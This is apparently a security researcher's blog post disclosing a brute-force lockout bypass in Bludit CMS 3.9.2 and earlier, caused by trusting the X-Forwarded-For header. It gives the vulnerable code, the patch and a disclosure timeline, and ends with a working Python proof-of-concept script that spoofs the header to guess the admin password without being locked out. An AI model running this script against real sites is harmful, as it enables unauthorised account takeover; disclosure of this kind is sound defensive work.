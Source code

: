 ```yaml
---
layout: post
title: Bludit Brute Force Mitigation Bypass
date: 2019-10-05
categories:
  - disclosure
  - websec
  - security
tags:
  - disclosure
  - php
  - security
  - websec
image: /assets/images/2019-10-05-bludit-brute-force-mitigation-bypass/68747470733a2f2f61736369696e656d612e6f72672f612f3237323636312e737667.jpg
---
```

Versions prior to and including 3.9.2 of the Bludit CMS are vulnerable to a bypass of the anti-brute force mechanism that is in place to block users that have attempted to incorrectly login 10 times or more. Within the `bl-kernel/security.class.php` file, there is a function named `getUserIp` which attempts to determine the _true_ IP address of the end user by trusting the `X-Forwarded-For` and `Client-IP` HTTP headers:

```php
public function getUserIp()
{
  if (getenv('HTTP_X_FORWARDED_FOR')) {
    $ip = getenv('HTTP_X_FORWARDED_FOR');
  } elseif (getenv('HTTP_CLIENT_IP')) {
    $ip = getenv('HTTP_CLIENT_IP');
  } else {
    $ip = getenv('REMOTE_ADDR');
  }
  return $ip;
}
```

The reasoning behind the checking of these headers is to determine the IP address of end users who are accessing the website behind a proxy, however, trusting these headers allows an attacker to easily spoof the source address. Additionally, no validation is carried out to ensure they are valid IP addresses, meaning that an attacker can use any arbitrary value and not risk being locked out.

As can be seen in the content of the log file below (found in `bl-content/databases/security.php`), submitting a login request with an `X-Forwarded-For` header value of `FakeIp` was processed successfully, and the failed login attempt was logged against the spoofed string:

```json
{
    "minutesBlocked": 5,
    "numberFailuresAllowed": 10,
    "blackList": {
        "192.168.194.1": {
            "lastFailure": 1570286876,
            "numberFailures": 1
        },
        "10.10.10.10": {
            "lastFailure": 1570286993,
            "numberFailures": 1
        },
        "FakeIp": {
            "lastFailure": 1570287052,
            "numberFailures": 1
        }
    }
}
```

By automating the generation of unique header values, prolonged brute force attacks can be carried out without risk of being blocked after 10 failed attempts, as can be seen in the demonstration video below in which a total of 51 attempts are made prior to recovering the correct password.

Demonstration
-------------
<script id="asciicast-272661" src="https://asciinema.org/a/272661.js" async></script>
<noscript><a href="https://asciinema.org/a/272661" target="\_blank"><img src="https://asciinema.org/a/272661.svg" /></a></noscript>

Versions Affected
-----------------
<= 3.9.2

Solution
--------
Update to a version later than 3.9.2 or apply the patch found at [https://github.com/bludit/bludit/pull/1090](https://github.com/bludit/bludit/pull/1090)

CVSS v3 Vector
--------------
[AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N/E:P/RL:W/RC:R](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N/E:P/RL:W/RC:R&version=3.1)

Disclosure Timeline
-------------------
- **2019-10-05**: Vulnerability found, pull request opened with fix
- **2019-10-05**: CVE requested
- **2019-10-05**: Patch merged into master branch

Proof of Concept
----------------
```python
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```
